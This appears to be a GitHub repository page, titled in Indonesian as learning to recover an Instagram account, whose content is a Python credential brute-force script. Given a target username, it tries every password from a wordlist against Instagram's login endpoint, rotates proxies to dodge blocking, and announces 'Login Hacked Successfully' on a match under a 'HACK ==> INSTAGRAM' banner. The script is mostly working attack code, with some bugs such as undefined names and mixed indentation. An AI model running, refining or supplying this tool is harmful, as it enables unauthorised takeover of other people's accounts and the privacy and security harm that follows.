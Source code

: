 # belajar
Belajar balikin akun instagram

'''
TODO LIST:
	Fix and make proxy function better
	Sort code again
	Add help function to all "Yes/no" questions
	Add help  function to "Press enter to exit input"
'''
import requests
import json
import time
import os
import random
import sys

#Help function
def Input(text):
	value = ''
	if sys.version_info.major > 2:
		value = input(text)
	else:
		value = raw_input(text)
	return str(value)

#The main class
class Instabrute():
	def __init__(self, username, passwordsFile='pass.txt'):
		self.username = username
		self.CurrentProxy = ''
		self.UsedProxys = []
		self.passwordsFile = passwordsFile
		
		#Check if passwords file exists
		self.loadPasswords()
		#Check if username exists
		self.IsUserExists()


		UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
		if (UsePorxy == 'Y' or UsePorxy == 'YES'):
			self.randomProxy()


	#Check if password file exists and check if he contain passwords
	def loadPasswords(self):
		if os.path.isfile(self.passwordsFile):
			with open(self.passwordsFile) as f:
				self.passwords = f.read().splitlines()
				passwordsNumber = len(self.passwords)
				if (passwordsNumber > 0):
					print ('[*] %s Passwords loads successfully' % passwordsNumber)
				else:
					print('Password file are empty, Please add passwords to it.')
					Input('[*] Press enter to exit')
					exit()
		else:
			print ('Please create passwords file named "%s"' % self.passwordsFile)
			Input('[*] Press enter to exit')
			exit()

	#Choose random proxy from proxys file
	def randomProxy(self):
		plist = open('proxy.txt').read().splitlines()
		proxy = random.choice(plist)

		if not proxy in self.UsedProxys:
			self.CurrentProxy = proxy
			self.UsedProxys.append(proxy)
		try:
			print('')
			print('[*] Check new ip...')
			print ('[*] Your public ip: %s' % requests.get('http://myexternalip.com/raw', proxies={ "http": proxy, "https": proxy },timeout=10.0).text)
		except Exception as e:
			print  ('[*] Can\'t reach proxy "%s"' % proxy)
		print('')


	#Check if username exists in instagram server
	def IsUserExists(self):
		r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username) 
		if (r.status_code == 404):
			print ('[*] User named "%s" not found' % username)
			Input('[*] Press enter to exit')
			exit()
		elif (r.status_code == 200):
			return True

	#Try to login with password
	def Login(self, password):
		sess = requests.Session()

		if len(self.CurrentProxy) > 0:
			sess.proxies = { "http": self.CurrentProxy, "https": self.CurrentProxy }

		#build requests headers
		sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
		sess.headers.update({
			'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
			'x-instagram-ajax':'1',
			'X-Requested-With': 'XMLHttpRequest',
			'origin': 'https://www.instagram.com',
			'ContentType' : 'application/x-www-form-urlencoded',
			'Connection': 'keep-alive',
			'Accept': '*/*',
			'Referer': 'https://www.instagram.com',
			'authority': 'www.instagram.com',
			'Host' : 'www.instagram.com',
			'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
			'Accept-Encoding' : 'gzip, deflate'
		})

		#Update token after enter to the site
		r = sess.get('https://www.instagram.com/') 
		sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})

		#Update token after login to the site 
		r = sess.post('https://www.instagram.com/accounts/login/ajax/', data={'username' :self.username, 'password' :password}, allow_redirects=True)
		sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
		
		#parse response
		data = json.loads(r.text)
		if (data['status'] == 'fail'):
			print (data['message'])

			UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
			if (UsePorxy == 'Y' or UsePorxy == 'YES'):
				print ('[$] Try to use proxy after fail.')
				randomProxy() #Check that, may contain bugs
			return False

		#return session if password is correct 
		if (data['authenticated'] == True):
			return sess 
		else:
			return False


os.system('clear')

M = '\033[1;33m'
C = '\033[1;31m'
D = '\033[1;32m'

print(D)

os.system('figlet "Almu 007"')

print(C)

print('                   By ==>  @lmu 007')

print(D)

print('               & & & & & & & & & & & &')

print(C)

print('                 HACK ==>  INSTAGRAM')

print(D)

print('           & & & & & & & & & & & & & & & &')

print(C)

instabrute = Instabrute(Input('Enter UserName : '))

print(D)

try:
	delayLoop = int(Input('[*] add delay between the bruteforce action (in seconds): ')) 
except Exception as e:
	print ('[*] Error, software use the defult value "4"')
	delayLoop = 4
print ('')


for password in instabrute.passwords:
	sess = instabrute.Login(password)
	if sess:
                print(C)
       		print ('[*] Login Hacked Successfully!!! %s' % [instabrute.username],[password])
	else:
                print(D)
		print ('[*] Connect ======> [%s]' % password)

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		WantToExit = str(Input('Type y/n to exit: ')).upper()
		if (WantToExit == 'Y' or WantToExit == 'YES'):
			exit()
		else:
			continue
		
